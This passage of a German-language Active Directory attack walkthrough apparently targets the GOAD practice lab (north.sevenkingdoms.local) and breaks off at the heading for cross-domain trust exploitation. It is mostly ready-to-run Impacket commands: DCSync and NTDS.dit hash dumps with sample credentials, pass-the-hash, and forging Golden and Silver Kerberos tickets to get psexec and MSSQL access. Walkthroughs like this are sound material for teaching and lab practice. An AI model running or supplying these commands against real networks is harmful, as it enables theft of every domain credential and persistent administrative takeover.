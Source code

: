 
## Phase 6: Actions on Objectives

### 6.1 DCSync für vollständige Credential-Exfiltration

#### Vorbereitung für DCSync
```bash
# Prüfen ob Benutzer DCSync-Rechte hat
# In BloodHound: "Find Shortest Path to Domain Admins"

# Falls DCSync-Rechte vorhanden
secretsdump.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11

# Alle Domain-Hashes extrahieren
secretsdump.py -just-dc north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11
```

#### NTDS.dit-Dump (falls Domain Admin erreicht)
```bash
# Wenn Domain Admin-Rechte erhalten
secretsdump.py -just-dc-ntlm north.sevenkingdoms.local/administrator:pass@192.168.20.11

# Mit Pass-the-Hash
secretsdump.py -hashes LM:NT north.sevenkingdoms.local/administrator@192.168.20.11
```

### 6.2 Golden/Silver Ticket-Angriffe

#### Golden Ticket (KRBTGT-Hash erforderlich)
```bash
# Nach erfolgreichem DCSync
ticketer.py -nthash <krbtgt_nt_hash> -domain-sid <domain_sid> -domain north.sevenkingdoms.local administrator

# Ticket verwenden
export KRB5CCNAME=administrator.ccache
klist
psexec.py -k -no-pass administrator@winterfell.north.sevenkingdoms.local
```

#### Silver Ticket für Service-Accounts
```bash
# Für SQL Server-Service
ticketer.py -nthash <sql_svc_nt_hash> -domain-sid <domain_sid> -domain north.sevenkingdoms.local -spn MSSQLSvc/castelblack.north.sevenkingdoms.local administrator

# Ticket verwenden
export KRB5CCNAME=administrator.ccache
impacket-mssqlclient -k castelblack.north.sevenkingdoms.local
```

### 6.3 Cross-Domain Trust Exploitation
